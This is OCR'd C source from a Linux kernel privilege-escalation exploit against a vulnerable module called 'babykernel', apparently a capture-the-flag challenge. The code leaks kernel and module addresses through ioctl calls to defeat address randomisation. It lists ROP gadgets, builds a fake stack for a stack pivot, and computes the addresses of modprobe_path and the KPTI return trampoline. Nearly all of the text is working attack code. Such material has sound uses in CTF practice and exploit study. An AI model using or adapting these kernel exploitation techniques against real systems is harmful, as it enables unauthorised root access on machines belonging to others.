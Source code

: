 ```c
    leak_buffer[0] = leak_alloc;
    leak_buffer[1] = 0x8;
    ioctl_control(leak_buffer, LEAK_COMMIT_CREDS);
    commit_creds = *leak_alloc;
    printf("commit_address: 0x%llx\n", commit_creds);

    //leak userinput_address
    leak_buffer[2] = -4;
    leak_buffer[1] = 0x8;
    ioctl_control(leak_buffer, LEAK_MODULE_OFFSET);
    module_base_address = *leak_alloc - 0x24c0;
    printf("module base address: 0x%llx\n", module_base_address);

    // ffffffff810fc0f0 T commit_creds
    // ffffffff810fc3d0 T prepare_kernel_cred
    // ffffffff81000000 T _text
    // ffffffff82a8b340 D modprobe_path
    // ffffffff820010f0 T swapgs_restore_regs_and_return_to_usermode

    // ffffffffc0000000 t bk_ioctl    [babykernel]
    // ffffffffc0002140 d __this_module    [babykernel]
    // ffffffffc0000100 t bk_init    [babykernel]
    // ffffffffc0000260 t cleanup_module    [babykernel]
    // ffffffffc0000100 t init_module    [babykernel]
    // ffffffffc00024c0 b user_input    [babykernel]
    // ffffffffc0000260 t bk_exit    [babykernel]
    // ffffffffc0002000 d bk_fops    [babykernel]
    // ffffffffc00024e0 b ops    [babykernel]

    // swapgs_restore_regs_and_return_to_usermode:
    // 0xffffffff81243298: xchg eax, esp ; ret ; (1 found)
    // 0xffffffff8200118b:	swapgs 
    // 0xffffffff8200118e:	jmp    0xffffffff820011b0
    // 0xffffffff820011b0:	test   BYTE PTR [rsp+0x20],0x4
    // 0xffffffff820011b5:	jne    0xffffffff820011b9
    // 0xffffffff820011b7:	iretq  

    uint64_t kernel_base = commit_creds - 0xfc0f0;
    uint64_t xchg_eax_esp__ret = kernel_base + 0x243298;

    printf("kernel base: 0x%llx\n", kernel_base);
    printf("0x%llx\n", xchg_eax_esp__ret);
    
    //make fakestack
    uint64_t* fake_stack = mmap(xchg_eax_esp__ret & 0xfffff000, 0x6000, 7, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    int stack_target = (xchg_eax_esp__ret & 0xfff) / 8;

    // 0xffffffff825d4ece : xor esi, edi ; pop rdi ; ret
    // 0xffffffff81094160 : pop r14 ; pop r13 ; pop r12 ; pop rbp ; pop rbx ; ret
    // 0xffffffff82f2f65c: and ecx, 0x03 ; rep movsb ; pop rdi ; pop rsi ; ret ; (1 found)
    // 0xffffffff81413398: pop rcx ; ret ; (1 found)
    // 0xffffffff82e8142e: pop rsi ; ret ; (1 found)

    // 0xffffffff81094167: pop rbx; ret;  
    // 0xffffffff814940e3: mov dword ptr [rbx], eax; ret; 
    // 0xffffffff811ae94c: pop rax; ret; 


    uint64_t modprobe_path = kernel_base + 0x1a8b340;
    uint64_t swapgs_restore_regs_and_return_to_usermode = kernel_base + 0x10010f0;
    uint64_t kpti_trampoline = kernel_base + 0x1001144;
    printf("modprobe_path: 0x%llx\n", modprobe_path);
```